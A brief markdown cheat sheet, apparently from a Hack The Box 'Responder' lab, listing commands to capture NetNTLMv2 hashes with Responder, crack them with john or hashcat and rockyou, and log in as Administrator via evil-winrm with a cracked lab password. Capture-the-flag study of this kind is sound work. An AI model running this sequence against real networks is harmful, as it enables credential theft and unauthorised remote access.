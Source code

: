 ## Notes from responder box in HTB

Run responder 
```
sudo responder -I tun0 -w -d
```

Get the hash, save it and try the hash with john or hashcat (/ optional: --format=netntlmv2, or wordlist as rockyou.txt)

john usage
```
john hash.txt 
```

hashcat usage
```
hashcat -m 5600 -a 3 hash.txt useful/rockyou.txt
```
connect with evil winrm (if for example port 5985 is open!)

```
evil-winrm -i 10.129.112.59 -u Administrator -p badminton
```
